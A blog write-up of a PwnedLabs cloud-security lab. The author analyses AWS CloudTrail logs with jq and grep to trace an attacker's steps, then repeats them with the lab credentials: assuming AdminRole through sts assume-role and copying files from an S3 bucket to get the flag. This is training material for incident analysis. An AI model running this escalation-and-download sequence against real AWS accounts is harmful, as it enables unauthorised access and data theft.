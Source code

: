 ```yaml
---
layout: blog
title: PwnedLabs | Breach in the Cloud Writeup
publishDate: 2025-05-23T23:29:00.000Z
description: A beginner lab from PwnedLabs based on AWS CloudTrail log analysis
  and AWS S3 enumeration.
tags:
  - pwnedlabs
  - writeup
  - aws
  - purple-team
---
```

## Download the zip file

The Cloudtrail logs can be downloaded from the Discord server. After downloading the zip file, I moved it to a dedicated directory for this lab (its always a good practice to keep things organized). Using the `unzip` command, I extracted the log files. The JSON files were not prettified, so it was difficult to read. There are several online tools available to prettify JSON, but the less you leave the terminal, the easier it is to work. I used `jq`, a tool used to prettify JSON data. To get started, you can simply cat the file and pipe the output through `jq` like:

```sh
cat log_file.json | jq .
```

To quickly format all files, run the command:

```sh
for file in *.json; do jq . "$file" > "$file.tmp" && mv "$file.tmp" "$file"; done
```

Command breakdown:
- `for file in *.json; do`: Iterates through all the files with a `.json` extension in the current working directory.
- `jq . "$file"`: Prettifies the content of the file and prints to the standard output. Here `$file` points to a JSON file in each iteration of the for loop.
- `> "$file.tmp"`: Instead of printing the contents to the standard output, write the output to a new file of the same name after appending with `.tmp`. So it will create a new file of the same but with a `.tmp` extension.
- `&& mv "$file.tmp" "$file"; done`: This command basically overwrites the original file with the contents of the new file and deletes the new file. So at the end of execution, we have the same files with the same names, but the contents are now entirely formatted.

## Finding AWS principals in the logs

AWS principals -> IAM users and roles

```sh
grep -r userName | sort -u
```

This command will search for the keyword "userName" across all the log files in the current working directory. The `sort -u` command will only list the unique entries.

## Investigating the log files

Observations after investigating the first few logs for `temp-user`:

- `107513503799_CloudTrail_us-east-1_20230826T2035Z_PjmwM7E4hZ6897Aq.json`: Issued the `GetCallerIdentity` command
- `107513503799_CloudTrail_us-east-1_20230826T2040Z_UkDeakooXR09uCBm.json`: Attempted to issue `ListObjects`, access denied
- `107513503799_CloudTrail_us-east-1_20230826T2050Z_iUtQqYPskB20yZqT.json`: Attempted to issue `ListAccountAliases`, `ListAuthorizers` and many commands, all access denied

On further investigation, I found that the attacker tried to issue a lot of commands which raised over 400 error messages in one log. Finally, the attacker was able to issue the `AssumeRole` command successfully and acquired the `AdminRole`. Following this step, the attacker was successful to download a file `emergency.txt` from the `emergency-data-recovery.s3.amazonaws.com` bucket.

## Retracing steps as an attacker

I use the `aws configure` command and provide the secret keys provided in the lab. The execution can be confirmed by running

```sh
aws sts get-caller-identity
```

The output confirmed that the username was `temp-user`.

Now to list the user policies of this user, I issued the `list-user-policies` command.

```sh
aws iam list-user-policies --user-name temp-user
```

It listed one policy named `test-temp-user`. To check the policy:

```sh
aws iam get-user-policy --user-name temp-user --policy-name test-temp-user
```

This revealed that `temp-user` was allowed to run the `AssumRole` command. That is what the attacker did. So, running this command I assumed  `AdminRole` similar to the attacker.

```sh
aws sts assume-role --role-arn arn:aws:iam::107513503799:role/AdminRole --role-session-name MySession
```

This command will print the access keys which can be used to configure aws. After this, I copied the session token and run this command:

```sh
aws configure set aws_session_token "<token>"
```

Now, running `aws sts get-caller-identity` I verified that I'm now having the `AdminRole` privileges as the `MySession` user that I created using the `AssumeRole` command.

Now I can list the contents of the `emergency-data-recovery` S3 bucket and download the files.

```sh
aws s3 ls s3://emergency-data-recovery
aws s3 cp s3://emergency-data-recovery/emergency.txt .
aws s3 cp s3://emergency-data-recovery/message.txt .
```

The flag was in the `emergency.txt` file.

## Conclusion

In this lab, I learned how to find suspicious activity from AWS Cloudtrail logs and then retrace the steps that the attacker took and successfully find the flag.
